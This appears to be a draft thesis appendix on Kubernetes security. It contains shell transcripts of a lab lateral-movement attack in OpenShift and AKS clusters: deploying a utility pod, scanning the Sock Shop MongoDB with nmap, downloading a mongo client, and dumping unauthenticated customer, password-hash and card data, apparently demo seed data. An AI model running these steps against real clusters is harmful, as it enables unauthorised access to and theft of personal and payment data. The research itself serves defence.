%\usepackage{caption}

\appendix
\doublespacing
\chapter{Appendix}

\section{AKS versions available on May 3rd, 2019}

\frame{
\includegraphics[scale=0.75]{pictures/aksVersionsMay.jpg}\label{aksVersionsMay}}
\captionof{figure}{List of k8s versions available in AKS during the practical part of the thesis on May 3rd, 2019. Screenshot taken by Lukas Grams.}

\section{Security advisory email from Microsoft}
\frame{
\includegraphics[scale=0.8]{pictures/securityMailMS.jpg}\label{securityMailMS}}
\captionof{figure}{An email from July 15th, 2019, advising users to reboot their AKS clusters in order to apply security patches. Screenshot taken by Lukas Grams.}

\section{AKS cluster default configuration}
%TODO
\highlight[red]{TODO? <- maybe add screenshots about aks default config situation, leading to rebuild needed to get netpols?}

\frame{
\includegraphics[scale=0.75]{pictures/aksDefaultConfig.jpg}\label{aksDefaultConfig}}
\captionof{figure}{Default \gls{aks} cluster configuration as of July 3rd, 2019. Screenshot taken by Lukas Grams.}

%TODO include full measure list for OCP + AKS? :P

\section{Attack demonstration}
%TODO add captionOfs to each missing
%TODO shorten out more irrelevant lines

\subsection{Lateral movement attack preparation in the OCP cluster}
\begin{lstlisting}[
	caption={Shell I/O in preparation of the \gls{ocp} cluster attack by lateral movement},
	label={lst:lateral-ocp-prep},
	breaklines=true]
[root@openshiftmaster ~]# oc projects
You have access to the following projects and can switch between them with 'oc project <projectname>':

    default
    kube-public
    kube-system
    management-infra
    openshift
    openshift-infra
    openshift-logging
    openshift-node
    openshift-sdn
    openshift-web-console
    other-team-deployment
    sock-shop
  * testuser

Using project "testuser" on server "https://openshiftmaster.lgr.com:8443".
[root@openshiftmaster ~]# oc get service -n sock-shop
NAME           TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
carts          ClusterIP   172.30.64.220    <none>        80/TCP         17d
carts-db       ClusterIP   172.30.43.90     <none>        27017/TCP      17d
catalogue      ClusterIP   172.30.233.128   <none>        80/TCP         17d
catalogue-db   ClusterIP   172.30.235.75    <none>        3306/TCP       23d
front-end      NodePort    172.30.56.57     <none>        80:30001/TCP   23d
orders         ClusterIP   172.30.157.45    <none>        80/TCP         17d
orders-db      ClusterIP   172.30.11.68     <none>        27017/TCP      17d
payment        ClusterIP   172.30.95.255    <none>        80/TCP         17d
queue-master   ClusterIP   172.30.150.132   <none>        80/TCP         23d
rabbitmq       ClusterIP   172.30.248.38    <none>        5672/TCP       17d
shipping       ClusterIP   172.30.151.180   <none>        80/TCP         17d
user           ClusterIP   172.30.124.104   <none>        80/TCP         17d
user-db        ClusterIP   172.30.2.17      <none>        27017/TCP      17d
[root@openshiftmaster ~]# cat network-utils.yaml
apiVersion: v1
kind: Pod
metadata:
  name: network-utils
spec:
  containers:
    - name: network-utils
      image: amouat/network-utils
      command: [ "sh", "-c"]
      args:
        - while true; do
            sleep 10;
          done;
restartPolicy: Never
[root@openshiftmaster ~]# oc adm policy scc-review -z default -f network-utils.yaml
RESOURCE            SERVICE ACCOUNT   ALLOWED BY
Pod/network-utils   default           anyuid
Pod/network-utils   default           hostmount-anyuid
Pod/network-utils   default           hostnetwork
[root@openshiftmaster ~]# oc apply -f network-utils.yaml
pod/network-utils created
[root@openshiftmaster ~]# oc rsh network-utils
# 
\end{lstlisting}

\subsection{Lateral movement attack conduction in the OCP cluster}
\begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{ocp} cluster attack by lateral movement},
	label={lst:lateral-ocp-exploit},
	breaklines=true]
# nmap -p27017 --script mongodb-databases 172.30.2.17 -Pn

Starting Nmap 6.47 ( http://nmap.org ) at 2019-06-13 15:16 UTC
Nmap scan report for 172.30.2.17
Host is up (0.00051s latency).
PORT      STATE SERVICE
27017/tcp open  mongodb
| mongodb-databases:
|   totalSize = 229376
|   ok = 1
|   databases
|     2
|       name = users
|       empty = false
|       sizeOnDisk = 114688
|     0
|       name = admin
|       empty = false
|       sizeOnDisk = 49152
|     1
|       name = local
|       empty = false
|_      sizeOnDisk = 65536

Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds
# curl fastdl.mongodb.org/linux/mongodb-linux-x86_64-4.0.10.tgz --resolve fastdl.mongodb.org:80:52.222.167.194 -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 81.0M  100 81.0M    0     0  1069k      0  0:01:17  0:01:17 --:--:-- 1614k
# tar -xvf mongodb-linux-x86_64-4.0.10.tgz
...
mongodb-linux-x86_64-4.0.10/bin/mongo
mongodb-linux-x86_64-4.0.10/bin/install_compass
# ./mongodb-linux-x86_64-4.0.10/bin/mongo 172.30.2.17
MongoDB shell version v4.0.10
connecting to: mongodb://172.30.2.17:27017/test?gssapiServiceName=mongodb
...
Welcome to the MongoDB shell.
...
Server has startup warnings:
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2019-06-12T08:05:30.285+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/defrag is 'always'.
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-12T08:05:30.286+0000 I CONTROL  [initandlisten]
> show dbs
admin  0.000GB
local  0.000GB
users  0.000GB
> use users
switched to db users
> show collections
addresses
cards
customers
> db.cards.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ae"), "longNum" : "5953580604169678", "expires" : "08/19", "ccv" : "678" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b1"), "longNum" : "5544154011345918", "expires" : "08/19", "ccv" : "958" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b4"), "longNum" : "0908415193175205", "expires" : "08/19", "ccv" : "280" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d2"), "longNum" : "5429804235432", "expires" : "04/16", "ccv" : "432" }
> db.customers.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830af"), "firstName" : "Eve", "lastName" : "Berger", "username" : "Eve_Berger", "password" : "fec51acb3365747fc61247da5e249674cf8463c2", "salt" : "c748112bc027878aa62812ba1ae00e40ad46d497", "addresses" : [ ObjectId("57a98d98e4b00679b4a830ad") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830ae") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b2"), "firstName" : "User", "lastName" : "Name", "username" : "user", "password" : "e2de7202bb2201842d041f6de201b10438369fb8", "salt" : "6c1c6176e8b455ef37da13d953df971c249d0d8e", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b0") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b1") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b5"), "firstName" : "User1", "lastName" : "Name1", "username" : "user1", "password" : "8f31df4dcc25694aeb0c212118ae37bbd6e47bcd", "salt" : "bd832b0e10c6882deabc5e8e60a37689e2b708c2", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b3") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b4") ] }
> db.addresses.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ad"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b0"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b3"), "number" : "4", "street" : "Maes-Y-Deri", "city" : "Aberdare", "postcode" : "CF44 6TF", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d1"), "number" : "3", "street" : "my road", "city" : "London", "country" : "UK" }
>
\end{lstlisting}

\subsection{Lateral movement attack preparation in the AKS cluster}
\begin{lstlisting}[
	caption={Shell I/O in preparation of the \gls{aks} cluster attack by lateral movement},
	label={lst:lateral-aks-prep},
	breaklines=true]
lukas@Azure:~$ kubectl get namespace
NAME          STATUS   AGE
default       Active   7h
kube-public   Active   7h
kube-system   Active   7h
sock-shop     Active   6h
testuser      Active   6h
lukas@Azure:~$ kubectl get service -n sock-shop
NAME           TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)        AGE
carts          ClusterIP   10.0.167.221   <none>        80/TCP         6h
carts-db       ClusterIP   10.0.199.172   <none>        27017/TCP      6h
catalogue      ClusterIP   10.0.133.141   <none>        80/TCP         6h
catalogue-db   ClusterIP   10.0.240.1     <none>        3306/TCP       6h
front-end      NodePort    10.0.246.241   <none>        80:30001/TCP   6h
orders         ClusterIP   10.0.16.21     <none>        80/TCP         6h
orders-db      ClusterIP   10.0.119.245   <none>        27017/TCP      6h
payment        ClusterIP   10.0.89.48     <none>        80/TCP         6h
queue-master   ClusterIP   10.0.64.13     <none>        80/TCP         6h
rabbitmq       ClusterIP   10.0.185.20    <none>        5672/TCP       6h
shipping       ClusterIP   10.0.117.16    <none>        80/TCP         6h
user           ClusterIP   10.0.69.17     <none>        80/TCP         6h
user-db        ClusterIP   10.0.1.75      <none>        27017/TCP      6h
lukas@Azure:~$ cat network-utils.yaml
apiVersion: v1
kind: Pod
metadata:
  name: network-utils
spec:
  containers:
    - name: network-utils
      image: amouat/network-utils
      command: [ "sh", "-c"]
      args:
        - while true; do
            sleep 10;
          done;
  restartPolicy: Never
lukas@Azure:~$
lukas@Azure:~$ kubectl apply -f network-utils.yaml
pod/network-utils created
lukas@Azure:~$ kubectl exec -it network-utils -- /bin/bash
root@network-utils:/#
\end{lstlisting}

\subsection{Lateral movement attack conduction in the AKS cluster}

\begin{lstlisting}[
	caption={Shortened version of the shell I/O during the exploitation of the \gls{aks} cluster attack by lateral movement},
	label={lst:lateral-aks-exploit},
	breaklines=true]
root@network-utils:/# nmap -p27017 --script mongodb-databases 10.0.1.75 -Pn

Starting Nmap 6.47 ( http://nmap.org ) at 2019-06-17 15:36 UTC
Nmap scan report for user-db.sock-shop.svc.cluster.local (10.0.1.75)
Host is up (0.000071s latency).
PORT      STATE SERVICE
27017/tcp open  mongodb
| mongodb-databases:
|   databases
|     0
|       sizeOnDisk = 49152
|       name = admin
|       empty = false
|     1
|       sizeOnDisk = 65536
|       name = local
|       empty = false
|     2
|       sizeOnDisk = 114688
|       name = users
|       empty = false
|   ok = 1
|_  totalSize = 229376

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
root@network-utils:/# curl fastdl.mongodb.org/linux/mongodb-linux-x86_64-4.0.10.tgz -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 81.0M  100 81.0M    0     0  20.6M      0  0:00:03  0:00:03 --:--:-- 20.6M
root@network-utils:/# tar -xvf mongodb-linux-x86_64-4.0.10.tgz
...
mongodb-linux-x86_64-4.0.10/bin/mongo
mongodb-linux-x86_64-4.0.10/bin/install_compass
root@network-utils:/# ./mongodb-linux-x86_64-4.0.10/bin/mongo 10.0.1.75
MongoDB shell version v4.0.10
connecting to: mongodb://10.0.1.75:27017/test?gssapiServiceName=mongodb
...
Welcome to the MongoDB shell.
...
Server has startup warnings:
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten]
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2019-06-17T09:26:20.304+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] ** WARNING: /sys/kernel/mm/transparent_hugepage/enabled is 'always'.
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten] **        We suggest setting it to 'never'
2019-06-17T09:26:20.920+0000 I CONTROL  [initandlisten]
> show dbs
admin  0.000GB
local  0.000GB
users  0.000GB
> use users
switched to db users
> db.customers.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830af"), "firstName" : "Eve", "lastName" : "Berger", "username" : "Eve_Berger", "password" : "fec51acb3365747fc61247da5e249674cf8463c2", "salt" : "c748112bc027878aa62812ba1ae00e40ad46d497", "addresses" : [ ObjectId("57a98d98e4b00679b4a830ad") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830ae") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b2"), "firstName" : "User", "lastName" : "Name", "username" : "user", "password" : "e2de7202bb2201842d041f6de201b10438369fb8", "salt" : "6c1c6176e8b455ef37da13d953df971c249d0d8e", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b0") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b1") ] }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b5"), "firstName" : "User1", "lastName" : "Name1", "username" : "user1", "password" : "8f31df4dcc25694aeb0c212118ae37bbd6e47bcd", "salt" : "bd832b0e10c6882deabc5e8e60a37689e2b708c2", "addresses" : [ ObjectId("57a98d98e4b00679b4a830b3") ], "cards" : [ ObjectId("57a98d98e4b00679b4a830b4") ] }
> db.addresses.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ad"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b0"), "number" : "246", "street" : "Whitelees Road", "city" : "Glasgow", "postcode" : "G67 3DL", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b3"), "number" : "4", "street" : "Maes-Y-Deri", "city" : "Aberdare", "postcode" : "CF44 6TF", "country" : "United Kingdom" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d1"), "number" : "3", "street" : "my road", "city" : "London", "country" : "UK" }
> db.cards.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ae"), "longNum" : "5953580604169678", "expires" : "08/19", "ccv" : "678" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b1"), "longNum" : "5544154011345918", "expires" : "08/19", "ccv" : "958" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b4"), "longNum" : "0908415193175205", "expires" : "08/19", "ccv" : "280" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d2"), "longNum" : "5429804235432", "expires" : "04/16", "ccv" : "432" }
>
\end{lstlisting}
